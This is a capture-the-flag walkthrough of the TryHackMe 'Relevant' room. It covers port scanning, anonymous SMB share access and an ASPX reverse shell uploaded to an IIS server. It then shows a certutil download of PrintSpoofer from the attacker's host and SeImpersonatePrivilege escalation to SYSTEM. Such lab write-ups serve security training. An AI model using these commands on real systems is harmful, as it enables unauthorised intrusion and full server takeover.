



# Relevant

Link to the room: https://tryhackme.com/room/relevant

## Let's start !! 

First, we set an IP variable 

````````
export IP=10.10.200.79
````````

### Rustscan 

As always we start with rustscan I like its style and it instantly gives a response after discovering an open port. The drawback is that we cannot scan it for UDP.

````````
rustscan -a $IP -- -A -sC -oN nmap.txt
````````

````````python
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/root/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.200.79:80
Open 10.10.200.79:135
Open 10.10.200.79:139
Open 10.10.200.79:445
Open 10.10.200.79:3389
Open 10.10.200.79:49663
Open 10.10.200.79:49667
Open 10.10.200.79:49669
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-28 00:10 IST
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:10
Completed NSE at 00:10, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:10
Completed NSE at 00:10, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:10
Completed NSE at 00:10, 0.00s elapsed
Initiating Ping Scan at 00:10
Scanning 10.10.200.79 [4 ports]
Completed Ping Scan at 00:10, 0.25s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 00:10
Completed Parallel DNS resolution of 1 host. at 00:10, 0.07s elapsed
DNS resolution of 1 IPs took 0.07s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 00:10
Scanning 10.10.200.79 [8 ports]
Discovered open port 135/tcp on 10.10.200.79
Discovered open port 80/tcp on 10.10.200.79
Discovered open port 139/tcp on 10.10.200.79
Discovered open port 49667/tcp on 10.10.200.79
Discovered open port 3389/tcp on 10.10.200.79
Discovered open port 49663/tcp on 10.10.200.79
Discovered open port 445/tcp on 10.10.200.79
Discovered open port 49669/tcp on 10.10.200.79
Completed SYN Stealth Scan at 00:10, 0.28s elapsed (8 total ports)
Initiating Service scan at 00:10
Scanning 8 services on 10.10.200.79
Completed Service scan at 00:12, 93.49s elapsed (8 services on 1 host)
Initiating OS detection (try #1) against 10.10.200.79
Retrying OS detection (try #2) against 10.10.200.79
Initiating Traceroute at 00:12
Completed Traceroute at 00:12, 0.24s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 00:12
Completed Parallel DNS resolution of 2 hosts. at 00:12, 0.07s elapsed
DNS resolution of 2 IPs took 0.07s. Mode: Async [#: 1, OK: 0, NX: 2, DR: 0, SF: 0, TR: 2, CN: 0]
NSE: Script scanning 10.10.200.79.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:12
NSE Timing: About 99.91% done; ETC: 00:13 (0:00:00 remaining)
Completed NSE at 00:13, 40.07s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:13
Completed NSE at 00:13, 1.50s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:13
Completed NSE at 00:13, 0.00s elapsed
Nmap scan report for 10.10.200.79
Host is up, received echo-reply ttl 127 (0.23s latency).
Scanned at 2022-05-28 00:10:56 IST for 142s

PORT      STATE SERVICE        REASON          VERSION
80/tcp    open  http           syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc          syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn    syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds   syn-ack ttl 127 Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server? syn-ack ttl 127
| ssl-cert: Subject: commonName=Relevant
| Issuer: commonName=Relevant
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-05-26T18:36:02
| Not valid after:  2022-11-25T18:36:02
| MD5:   c5e1 7cae 9093 627c d717 ecc2 fa4f eea2
| SHA-1: e79d b1c8 c5ee e24e 6976 a651 6daa 8b93 c292 ed93
| -----BEGIN CERTIFICATE-----
| MIIC1DCCAbygAwIBAgIQaUQl/Yskr4hATlJGaO0+tTANBgkqhkiG9w0BAQsFADAT
| MREwDwYDVQQDEwhSZWxldmFudDAeFw0yMjA1MjYxODM2MDJaFw0yMjExMjUxODM2
| MDJaMBMxETAPBgNVBAMTCFJlbGV2YW50MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8A
| MIIBCgKCAQEA1wHND5+mmaL9g6zVYPkYlb2JglrQ/V/UhxioVRGKtvUlzHa3LudU
| vhnuCIuAc96nVfh0iLxzn1eaHfmdCelHwV5mMRpHluQov5J3A1yeH23B1H83+vPX
| EyBInVyZrmk1cxIZq53tfCi1wtq2Urqi782X0PYmrwt/hUTt5UN1W8Ukhr/ZkPd0
| SU8AOsUWc/gZqrSip1W2bSodaDrsnF1M96iK1hHGX4Kdm+Qme4IxctaNT7XN29pJ
| mB9G4A7UtzYZP2Mzop1OpX2NlL3+vH8ks/a8gqnHOyTObqsgS0toQQHKK42XLx40
| 2kQr42sxjobuvsyvqMSdNo6TZ/bnghK2AQIDAQABoyQwIjATBgNVHSUEDDAKBggr
| BgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQELBQADggEBADm+Hwnu6Khn
| cfiKhhrgcDvEkzOVV1PKpfb7U4X+9iI+0KXZATv0CVNGLmqka6opJqTQxaT558UC
| OUlLlEEV9r43YghXSCjAKlrHyU/8CgvzIT6SAgmhC09CQfA5KQUOTvMiMatYpQBH
| UWvUoImZ6dDL3erC5r0mAhCC82OLGdmgib8UlpeENbL06V79Qb9G3k5al9Zjjb6k
| 439TUcLWtrFwNKMLIUlZbzDh5WuBXTI1JsZTo9sBt3vdB702rKppMyBAq00QfT4E
| ZD8Y4nNvnGfE3SB/kI22Zd+DAn2024MiH2JvQGHdo2pQ2O9O3UKnd44uoTXDJMyJ
| jZW2jfuT6mA=
|_-----END CERTIFICATE-----
|_ssl-date: 2022-05-27T18:43:17+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2022-05-27T18:42:38+00:00
49663/tcp open  http           syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
49667/tcp open  msrpc          syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc          syn-ack ttl 127 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2016|2012|2008|10 (91%)
OS CPE: cpe:/o:microsoft:windows_server_2016 cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_10:1607
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows Server 2016 (91%), Microsoft Windows Server 2012 (85%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (85%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows 10 1607 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.92%E=4%D=5/28%OT=80%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=62911BC6%P=x86_64-pc-linux-gnu)
SEQ(SP=106%GCD=1%ISR=10D%TI=I%II=I%SS=S%TS=A)
OPS(O1=M505NW8ST11%O2=M505NW8ST11%O3=M505NW8NNT11%O4=M505NW8ST11%O5=M505NW8ST11%O6=M505ST11)
WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)
ECN(R=Y%DF=Y%TG=80%W=2000%O=M505NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Uptime guess: 0.007 days (since Sat May 28 00:02:58 2022)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 33994/tcp): CLEAN (Timeout)
|   Check 2 (port 47977/tcp): CLEAN (Timeout)
|   Check 3 (port 27752/udp): CLEAN (Timeout)
|   Check 4 (port 2930/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 1h24m00s, deviation: 3h07m51s, median: 0s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2022-05-27T18:42:41
|_  start_date: 2022-05-27T18:36:47
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-05-27T11:42:40-07:00

TRACEROUTE (using port 135/tcp)
HOP RTT       ADDRESS
1   195.61 ms 10.8.0.1
2   229.65 ms 10.10.200.79

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:13
Completed NSE at 00:13, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:13
Completed NSE at 00:13, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:13
Completed NSE at 00:13, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 142.12 seconds
           Raw packets sent: 97 (7.952KB) | Rcvd: 39 (2.408KB)
````````
so we have port 135,445 open let us try to login in with anonymous login.


### smbclient (smb shares)

````````
smbclient -L \\\\$IP\\
````````

````````python
Password for [WORKGROUP\root]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	nt4wrksv        Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.200.79 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

````````
we have few shares. the three is the default one. the interesting one is nt4wrksv. let's see what's inside...

````````
smbclient \\\\$IP\\nt4wrksv 
````````

````````python
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jul 26 03:16:04 2020
  ..                                  D        0  Sun Jul 26 03:16:04 2020
  passwords.txt                       A       98  Sat Jul 25 20:45:33 2020

		7735807 blocks of size 4096. 4948740 blocks available
smb: \> prompt off
smb: \> recurse on
smb: \> mget *
getting file \passwords.txt of size 98 as passwords.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> 

````````
here we have passwords.txt but there is nothing useful.  


### HTTP (IIS on port 49663)



I have run gobuster here but nothing was found. so I try with nt4wrksv which we found in smb share and ........



So, as you see we can access the smb share with it. let us make an aspx payload and upload it to get a reverse shell back.

I will provide an aspx reverse shell payload. you need to change its IP and port. then put this on smb share and execute.

- ASPX Reverse shell: https://github.com/TanmoyG1800/PAYLOADS/blob/main/ASPX/shell.aspx

##### THEN

````````
smbclient \\\\$IP\\nt4wrksv
````````

````````python
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> put shell.aspx 
putting file shell.aspx as \shell.aspx (18.2 kb/s) (average 18.2 kb/s)
smb: \> exit
````````
Now we set our listener

````````
nc -lvp 1234
````````

Let's execute the aspx reverse shell...



YESS!! we have gained access to our target machine

````````python
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.200.79.
Ncat: Connection from 10.10.200.79:49914.
Spawn Shell...
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool

c:\windows\system32\inetsrv>

````````
Now, we can get our first flag. 

## Getting user.txt flag 

````````python
c:\Windows\System32\inetsrv>cd c:\Users\Bob\Desktop
cd c:\Users\Bob\Desktop

c:\Users\Bob\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\Users\Bob\Desktop

07/25/2020  02:04 PM    <DIR>          .
07/25/2020  02:04 PM    <DIR>          ..
07/25/2020  08:24 AM                35 user.txt
               1 File(s)             35 bytes
               2 Dir(s)  21,051,564,032 bytes free

c:\Users\Bob\Desktop>type user.txt
type user.txt
{REDACTED}
c:\Users\Bob\Desktop>

````````
so we have our first flag. let's escalate our privileges for getting the second flag...

## privilege esculation 

````````
systeminfo
````````

````````python

Host Name:                 RELEVANT
OS Name:                   Microsoft Windows Server 2016 Standard Evaluation
OS Version:                10.0.14393 N/A Build 14393
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00378-00000-00000-AA739
Original Install Date:     7/25/2020, 7:56:59 AM
System Boot Time:          5/27/2022, 11:32:59 AM
System Manufacturer:       Xen
System Model:              HVM domU
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 79 Stepping 1 GenuineIntel ~2300 Mhz
BIOS Version:              Xen 4.11.amazon, 8/24/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     512 MB
Available Physical Memory: 106 MB
Virtual Memory: Max Size:  1,536 MB
Virtual Memory: Available: 866 MB
Virtual Memory: In Use:    670 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 3 Hotfix(s) Installed.
                           [01]: KB3192137
                           [02]: KB3211320
                           [03]: KB3213986
Network Card(s):           1 NIC(s) Installed.
                           [01]: AWS PV Network Device
                                 Connection Name: Ethernet 2
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.10.0.1
                                 IP address(es)
                                 [01]: 10.10.200.79
                                 [02]: fe80::68f3:9602:6ed3:83cb
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.

````````
Okay, this is a Windows Server 2016. let's check our privileges on the machine.

````````
whomai /priv 
````````

````````python
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

````````
So we have SeImpersonatePrivilege, SeChangeNotifyPrivilege Enable. let's abuse it. for doing this we need an exploit called printspoofer.exe

printspoofer.exe link: https://github.com/TanmoyG1800/printspoofer/blob/main/PrintSpoofer.exe

Now let's transfer printspoofer to our victim machine. for this, we need to create an HTTP server.

````````
python3 -m http.server 80
````````
let us download and run this exploit and get our root.txt  

Downloading command
````````c
certutil.exe -urlcache -f http://YOUR_IP/PrintSpoofer.exe PrintSpoofer.exe
````````

### Getting Root.txt

````````python
c:\Users\Bob\Desktop>certutil.exe -urlcache -f http://10.8.126.243/PrintSpoofer.exe PrintSpoofer.exe
certutil.exe -urlcache -f http://10.8.126.243/PrintSpoofer.exe PrintSpoofer.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

c:\Users\Bob\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\Users\Bob\Desktop

05/27/2022  12:52 PM    <DIR>          .
05/27/2022  12:52 PM    <DIR>          ..
05/27/2022  12:51 PM                 9 hello.txt
05/27/2022  12:53 PM            27,136 PrintSpoofer.exe
07/25/2020  08:24 AM                35 user.txt
               3 File(s)         27,180 bytes
               2 Dir(s)  20,278,505,472 bytes free

c:\Users\Bob\Desktop>PrintSpoofer.exe -i -c cmd
PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> cd c:\Users\Administrator\
cd c:\Users\Administrator\

c:\Users\Administrator>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\Users\Administrator

07/25/2020  10:30 AM    <DIR>          .
07/25/2020  10:30 AM    <DIR>          ..
07/25/2020  07:58 AM    <DIR>          Contacts
07/25/2020  08:24 AM    <DIR>          Desktop
07/25/2020  07:58 AM    <DIR>          Documents
07/25/2020  08:39 AM    <DIR>          Downloads
07/25/2020  07:58 AM    <DIR>          Favorites
07/25/2020  07:58 AM    <DIR>          Links
07/25/2020  07:58 AM    <DIR>          Music
07/25/2020  07:58 AM    <DIR>          Pictures
07/25/2020  07:58 AM    <DIR>          Saved Games
07/25/2020  07:58 AM    <DIR>          Searches
07/25/2020  07:58 AM    <DIR>          Videos
               0 File(s)              0 bytes
              13 Dir(s)  20,272,185,344 bytes free

c:\Users\Administrator>cd Desktop
cd Desktop

c:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\Users\Administrator\Desktop

07/25/2020  08:24 AM    <DIR>          .
07/25/2020  08:24 AM    <DIR>          ..
07/25/2020  08:25 AM                35 root.txt
               1 File(s)             35 bytes
               2 Dir(s)  20,272,185,344 bytes free

c:\Users\Administrator\Desktop>type root.txt
type root.txt
{REDACTED}
c:\Users\Administrator\Desktop>

````````

- Done
 
